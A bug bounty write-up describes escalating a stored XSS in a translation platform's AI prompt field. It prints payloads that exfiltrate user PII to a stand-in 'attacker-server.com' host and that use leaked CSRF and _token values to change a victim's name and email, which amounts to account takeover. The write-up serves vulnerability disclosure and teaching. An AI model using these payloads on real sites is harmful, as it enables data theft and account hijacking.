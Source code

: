 # How We Turned a Medium XSS into a High Bounty by Bypassing HttpOnly Cookie

#### **﷽**

During a recent security assessment on a private bug bounty program with my friends @0d\_sami and @karemelsaqary , We discovered a Stored Cross-Site Scripting (XSS) vulnerability that was initially triaged as medium severity. However, by uncovering a way to bypass HttpOnly cookies, I was able to escalate its impact, resulting in a high-severity classification and a 3x increase in the bounty. Let’s dive into the details of this finding and how I achieved this escalation.

***

## **The Initial Discovery**

The target application was a common platform used for website translations, featuring team management, project management, and an AI-powered section. While testing for privilege escalation and injection attacks, I stumbled upon an interesting input field in the AI prompts section. Specifically, there was a "select bar" for choosing prompt types, but at the end of the list, there was an option to create a custom prompt type. This immediately caught my attention as a potential vector for XSS.

I tested the input field with standard XSS payloads and successfully triggered a stored XSS vulnerability. However, there were two significant limitations:

1. **Character Limit**: The input field was restricted to 255 characters, which made crafting a payload challenging.
2. **HttpOnly Cookies**: The session cookies were protected by the HttpOnly flag, preventing JavaScript from accessing them.

Despite these limitations, I reported the vulnerability, expecting it to be classified as medium severity due to the restricted impact. The triage team confirmed this assessment, stating that the HttpOnly flag mitigated the risk of cookie theft, leaving only the potential for script execution.

<figure><img src="../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

***

## **Escalating the Impact**

While the initial finding was valid, I wasn’t satisfied with the medium severity classification. I began exploring ways to increase the impact of the vulnerability. Here’s how I did it:

### **1. Expanding the Attack Scope**

I discovered that projects could be made public, significantly widening the attack surface. If an attacker could lure users to join their project and view the AI prompts, the XSS payload would trigger for all those users. While this increased the potential impact, it still wasn’t enough to convince the security team to classify the vulnerability as high severity.

<figure><img src="../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

### **2. Leaking Sensitive User Data**

Next, I focused on finding ways to exfiltrate sensitive data. During my testing, I identified an endpoint (`/backend/settings/change_account`) that leaked all user PII (Personally Identifiable Information) if an incorrect request was sent Like Requesting it without providing the `X-CSRF-TOKEN:` header or without the required parameters and it was very very strange behavior. The challenge was crafting a payload within the 255-character limit to exploit this.

After some experimentation and assistance from AI to optimize the payload, I came up with the following:

{% code overflow="wrap" %}
```javascript
fetch('/backend/settings/change_account').then(r => r.json()).then(d => location = 'https://attacker-server.com?data=' + encodeURIComponent(JSON.stringify(d))).catch(console.error);
```
{% endcode %}

This payload forced the victim’s browser to make a request to the vulnerable endpoint, leaking all user data and sending it to my Burp Collaborator server.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **3. Bypassing HttpOnly for CSRF Tokens**

While the session cookies were protected by the HttpOnly flag, I noticed that the CSRF token was stored in a non-HttpOnly cookie. This token was also included in the headers of requests to sensitive endpoints, such as the one used to change user passwords. By leveraging the XSS vulnerability, I could extract the CSRF token and use it to perform actions on behalf of the victim.

Here’s the payload I used to change the victim’s profile name:

{% code overflow="wrap" %}
```javascript
<script>fetch('/backend/settings/change_account',{method:'POST',headers:{'X-Csrf-Token':'fkel9z9je2','Content-Type':'application/x-www-form-urlencoded'},body:'step=real_name&real_name=hacked+0x88'}).then(r=>r.json()).then(console.log)</script>
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

### **4. Achieving Account Takeover**

To escalate the attack further, I aimed to change the victim’s email address, which would allow for a full account takeover. However, the request to change the email required an additional parameter (`_token`) that wasn’t stored in any cookie. After some investigation, I found that this token was leaked in the HTML content of the victim’s profile page. By making a request to the profile endpoint and exfiltrating the HTML, I was able to extract the `_token` and use it in another XSS payload to change the victim’s email:

{% code overflow="wrap" %}
```javascript
<script>fetch('/api/front/user/change-email',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'new_email=t@t.co&_token=tokeforvictim'}).then(r=>r.json()).then(console.log)</script>
```
{% endcode %}

***

## **Additional Exploitation Scenarios**

Beyond account takeover, I demonstrated other severe impacts that could result from the XSS vulnerability, including:

1. **Ad Fraud**: Injecting malicious advertisements into the page.
2. **SEO Manipulation**: Injecting backlinks to manipulate search engine rankings.
3. **Cryptojacking**: Injecting scripts to mine cryptocurrency without the user’s consent.

<figure><img src="../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

The security team ultimately agreed with my assessment, reclassifying the vulnerability as high severity and awarding a significantly higher bounty. This finding serves as a reminder that persistence and creativity can turn seemingly minor vulnerabilities into critical security issues.

<figure><img src="../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

Stay curious, and happy hunting!

<figure><img src="../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

**سُبْحَانَكَ اللَّهُمَّ وَبِحَمْدِكَ ، أَشْهَدُ أَنْ لا إِلَهَ إِلا أَنْتَ ، أَسْتَغْفِرُكَ وَأَتُوبُ إِلَيْكَ**

